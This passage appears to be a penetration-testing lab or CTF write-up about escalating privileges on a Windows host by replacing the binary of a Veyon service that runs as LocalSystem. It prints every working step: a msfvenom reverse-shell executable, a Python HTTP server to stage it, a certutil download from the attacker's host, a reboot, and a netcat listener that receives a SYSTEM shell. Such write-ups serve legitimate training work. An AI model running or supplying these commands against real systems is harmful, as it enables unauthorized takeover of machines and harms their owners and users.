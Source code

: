 ```
                           : RpcSs
        SERVICE_START_NAME : LocalSystem

```

Let's create a reverse shell and try to replace this service's binary with our own.

```
kali@kali:~$  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f exe -o veyon-service.exe
```

We start a simple **Python HTTP Server** to be able to transfer the file.

```
kali@kali:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now on the remote Windows machine, we make a backup of the service's binary, and download our malicious version.

```
C:\>cd C:\Users\Ela Arwel\Veyon\

C:\Users\Ela Arwel\Veyon>move veyon-service.exe veyon-service.bak
        1 file(s) moved.

C:\Users\Ela Arwel\Veyon>certutil -f -urlcache http://192.168.118.8:8000//veyon-service.exe veyon-service.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

After setting up a new listener and rebooting the machine, we receive a system shell.

```
kali@kali:~$ sudo nc -lvnp 443
listening on [any] 443 ...
```

```
C:\Users\Ela Arwel\Veyon>shutdown /r
shutdown /r
```

```
kali@kali:~$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.132] 49669

Microsoft Windows [Version 10.0.18363.1139]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```